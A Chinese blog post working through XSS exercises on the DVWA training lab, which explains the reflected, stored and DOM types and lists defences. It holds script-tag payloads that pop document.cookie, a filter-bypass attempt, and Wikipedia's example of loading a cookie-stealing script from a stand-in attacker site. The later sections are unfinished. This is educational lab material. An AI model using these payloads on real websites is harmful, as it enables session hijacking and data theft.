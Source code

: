 ```yaml
---
layout:     post
title:      DVWA靶机练习之XSS
subtitle:   
date:       2019-12-08
author:     kevin
header-img: img/green-bg.jpg
catalog: true
tags:
    - security
    - web
    - XSS
---
```




## XSS是什么

XSS(cross-site-scripting) 即是跨站脚本攻击，是一种网站应用程序的安全漏洞攻击，是代码注入的一种。它允许恶意用户将代码注入到网页上，其他用户在观看网页时就会受到影响。这类攻击通常包含了 HTML 以及用户端脚本语言。 



简洁点来说，XSS 就是利用了网站对用户输入没有过滤完全的漏洞，上传恶意代码到网站页面上，使得其他用户加载页面时执行攻击者的恶意代码，达到窃取用户敏感信息（如 cookie）的目的，根据种类不同，一般又分为 反射型 XSS 攻击，存储型 XSS 攻击，DOM 型 XSS 攻击



### Non-persistent (reflected)



反射型 XSS 攻击并不会将恶意脚本存储在服务端，需要用户在和后端交互时自己输入恶意的脚本，因此这种 XSS 攻击一般存在于钓鱼连接中，攻击者已经构造好一个包含恶意代码的链接，如果用户点击了这个链接，就会被窃取隐私信息，比如下面这个钓鱼链接就是个反射型 XSS 攻击脚本



```
http://bobssite.org/search?q=puppies<script>alert('document.cookie');</script>
```



### Persistent (or stored)



存储型 XSS 攻击是将恶意脚本植入服务器端，这样每一次用户访问一个正常的页面时，恶意的代码都会被自动渲染，如果不能及时发现的话会对网站造成很大的影响，假如在一个访问量很大的页面启用 XSS 攻击访问另外的一个网站，则会造成 Dos 攻击的效果，这种 XSS 一般存在于留言板之类的应用中



### DOM-based



DOM 型的 XSS 攻击不会将代码传到服务器端进行交互，所有的处理都由 JavaScript 完成，因此如果前端 JavaScript 没有对输入进行很好的过滤就会造成这种 XSS 攻击



## Wikipedia demo



这里是维基百科上关于 XSS 攻击的两个 demo ，包含持续性和非持续性两种例子



### Non-persistent



1. 爱丽丝经常访问由鲍勃（Bob）托管的特定网站。 Bob的网站允许 Alice 使用用户名/密码对登录并存储敏感数据，例如账单信息。 当用户登录时，浏览器会保留一个“授权 Cookie”，它看起来像一些垃圾字符，因此两台计算机（客户端和服务器）都具有她已登录的记录。
2. Mallory 注意到 Bob 的网站包含一个反射型 XSS 漏洞：
   1. 当她访问“搜索”页面时，她在搜索框中输入搜索词，然后单击“提交”按钮。 如果未找到任何结果，则该页面将显示她搜索的字词，后跟“未找到”字样，其网址为 http://bobssite.org/search?q=her%20search%20term
   2. 使用正常的搜索查询（例如单词“ puppies”），页面仅显示“找不到小狗”，而网址为“ http://bobssite.org/search?q=puppies”-这是完全正常的行为
   3. 但是，当她提交异常的搜索查询时，例如“ <script type ='application / javascript'> alert（'xss'）; </ script>”，
      1. 出现一个警告框（显示 “ xss” ）
      2. 该页面显示“未找到”，以及带有文本 “ xss” 的错误消息。
      3. 网址是 “ http://bobssite.org/search?q= <script％20type ='application / javascript'> alert（'xss'）; </ script> - 这是可利用的行为
3. Mallory制作了一个利用此漏洞的URL：
   1. 她制作了 URL  http://bobssite.org/search?q=puppies<script%20src=“ http://mallorysevilsite.com/authstealer.js”> </ script>。 她可以选择使用百分比编码来对 ASCII 字符进行编码，例如 http://bobssite.org/search?q=puppies%3Cscript%2520src%3D%22http%3A%2F%2Fmallorysevilsite.com%2Fauthstealer.js%22 ％3E％3C％2Fscript％3E，因此人类读者无法立即破译恶意 URL
   2. 她向鲍勃网站的一些毫无戒心的成员发送了一封电子邮件，说：“看看一些可爱的小狗！”
4. 爱丽丝得到了电子邮件。 她喜欢小狗，然后单击链接。 它转到 Bob 的网站进行搜索，未找到任何内容，并显示“未找到小狗”，但在这之间，脚本标签运行（在屏幕上不可见）并加载并运行 Mallory 的程序 authstealer.js（触发 XSS 攻击）， 爱丽丝并不知道。
5. authstealer.js 程序在Alice的浏览器中运行，就像它起源于Bob的网站一样。 它获取 Alice 的 Authorization Cookie 的副本，并将其发送到 Mallory 的服务器，Mallory 在该服务器上检索它。
6. Mallory 现在将 Alice 的授权 Cookie 放在自己的浏览器中，就好像是她自己的一样。 然后，她去了 Bob 的站点，现在以 Alice 的身份登录。
7. 现在她进入了，Mallory 转到网站的 Billing 部分，查找 Alice 的信用卡号并获取一个副本。 然后她去更改密码，以使爱丽丝什至无法登录。
8. 她决定更进一步，并向 Bob 自己发送类似的链接，从而获得 Bob 的网站管理员权限。



**防治措施：**

1. 搜索框对用户输入进行过滤，其中包括正确的编码检查
2. 服务器对错误的请求进行重定向
3. 服务器检测到同时登录就使会话无效
4. 服务器检测到同时在两个 ip 登录就使会话无效
5. 网站只展示银行卡最后几位数字
6. 在更改信息前让用户输入密码确认
7. cookie 中设置 `HttpOnly` 字样防止通过 JavaScript 访问



### Persistent



1. Mallory 在 Bob 的网站上获得了一个帐户
2. Mallory 发现 Bob 的网站包含一个存储型 XSS 漏洞。 如果转到“新闻”部分并发表评论，它将显示他输入的任何内容。 但是，如果注释文本中包含 HTML 标记，则标记将按原样显示，并且所有脚本标记都将运行
3. Mallory 在“新闻”部分阅读文章，并在“评论”部分底部写评论。 她在评论中插入了这段文字：我喜欢这个故事中的幼犬！ 他们是如此可爱！<script src =“ http://mallorysevilsite.com/authstealer.js”>
4. 当爱丽丝（或其他人）用评论加载页面时，马洛里的脚本标签运行并窃取爱丽丝的授权 cookie，然后将其发送到 Mallory 的秘密服务器进行收集
5. Mallory 现在可以劫持 Alice 的会话并假冒 Alice



**防治措施：**

1. 对用户的 HTML 标签进行过滤
2. 利用 token 技术，防止 CSRF 攻击



## DVWA 案例



### 低级



#### XSS(DOM)



低级案例通过 GET 方法将下拉框选中的内容发送给本页面，如果有 `default=` 字样的话就进行接下去的操作，没有对输入进行任何过滤，因此在浏览器地址栏我们可以构造出以下 payload 



```
http://localhost/dvwa/vulnerabilities/xss_d/?default=Spanish<script>alert(document.cookie);</script>
```



#### XSS(Reflected)



输入什么就返回什么，那我们也可以构造出一个 payload 来弹出 cookies



```
kevin<script>alert(document.cookie);</script>
```



#### XSS(Stored)



这是个留言本应用，经常会有存储型 XSS 漏洞，当存在这种漏洞时，如果有人恶意攻击了这个页面，那么随后访问的用户都会被利用，如果在页面中植入下面这个 payload，则后面访问的用户访问时都会弹出 cookies



```
Name: hacker
Message: jsfuck<script>alert(document.cookie);</script>
```



可以看到，植入代码之后，脚本就存储在了页面中，这是持久性的，只要管理员没有发现，就会一直有人受害

![book.jpg](https://i.loli.net/2019/12/12/GXIDYjpVePnZlBE.jpg)

### 中级



#### XSS(DOM)



中级的案例对 `<script` 标签做了过滤，因此我们可以选择绕过，浏览器对大小写是不敏感的，因此我们可以将 script 大写，像下面这样



```
http://localhost/dvwa/vulnerabilities/xss_d/?default=Spanish<Script>alert(document.cookie);</Script>
```



然而事实证明，这种方法并没有卵用，不能绕过，看了源码，后端用了 `stripos` 函数过滤，这个函数是不区分大小写的，因此大写对他没用，直接把 `script` 给过滤了，因此我们考虑一下用另外一种标签，开始想到的是图片标签，构造一个不存在的图片



```
http://localhost/dvwa/vulnerabilities/xss_d/?default=Spanish<img src=233 onload=alert(document.cookie); hidden="true"/>
```



但是也没啥用，因为后面 JavaScript 将内容写进了 `option` 标签里面，而 `option` 里面是不能放图片的，所以此路不通，那就再换一个思路，











#### XSS(Reflected)



#### XSS(Stored)





### 高级



#### XSS(DOM)



#### XSS(Reflected)



#### XSS(Stored)



## summary



永远不要相信用户的输入，不要被局限，万物皆可 XSS